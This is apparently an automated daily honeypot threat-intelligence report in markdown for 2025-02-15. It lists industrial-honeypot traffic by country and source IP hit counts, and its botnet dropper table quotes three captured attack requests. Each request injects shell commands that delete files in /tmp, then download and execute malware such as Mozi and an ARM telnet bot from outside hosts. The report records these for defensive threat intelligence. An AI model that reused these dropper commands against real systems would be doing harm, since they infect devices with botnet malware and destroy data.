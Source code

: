```yaml
---
title: "Report: 2025-02-15 "
date: 2025-02-15
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-15
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| NL               | Singapore          |
| FR               | Australia          |
| FR               | Dubai              |
| FR               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                                                  |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 27.47.1.128     | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                               |
| 147.139.247.218 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                            |
| 185.93.89.118   | GET /index.php?s=index/index/index/think_lang/../../extend/pearcmd/pearcmd/index&cmd=cd%20%2ftmp%20%7c%7c%20cd%20%2fvar%2ftmp%20%7c%7c%20cd%20%2fdev%2fshm%3b%20curl%20-O%20http%3a%2f%2f196.251.115.173%2fsh%20%7c%7c%20wget%20http%3a%2f196.251.115.173%2fsh%3b%20chmod%20%2bx%20sh%3b%20.%2fsh%20thinkphp%3b%20rm%20-rf%20sh HTTP/1.1 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   444 | 185.93.89.118   |
|   1 |                    68 | 193.68.89.10    |
|   2 |                    58 | 92.255.57.58    |
|   3 |                    52 | 78.153.140.151  |
|   4 |                    50 | 78.153.140.224  |
|   5 |                    48 | 193.68.89.51    |
|   6 |                    45 | 43.252.229.69   |
|   7 |                    44 | 45.148.10.90    |
|   8 |                    32 | 95.214.55.123   |